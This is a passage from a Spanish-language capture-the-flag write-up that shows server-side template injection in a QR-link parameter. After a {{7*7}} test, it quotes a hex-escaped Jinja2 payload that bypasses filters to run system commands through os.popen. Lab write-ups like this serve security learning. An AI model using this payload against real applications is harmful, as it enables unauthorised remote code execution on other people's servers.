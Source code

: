 Con esto me genera un link para el QR, procedo a interceptar la solicitud con Burpusuite

![Burpsuite2](../assets/images-Iclean/Iclean12.png)

Primero intento inyectando `{{7*7}}` en el parametro qr_link y al ver que si me refleja el resultado de la operación, procedo a ingresar varios payloads hasta dar con el que me de resultado 

![Payload](../assets/images-Iclean/Iclean13.png)

buscando payloads encontre en [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#jinja2) el siguiente payload que me sirvio.
```py
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('id')|attr('read')()}}
```
![SSTI](../assets/images-Iclean/Iclean14.png)
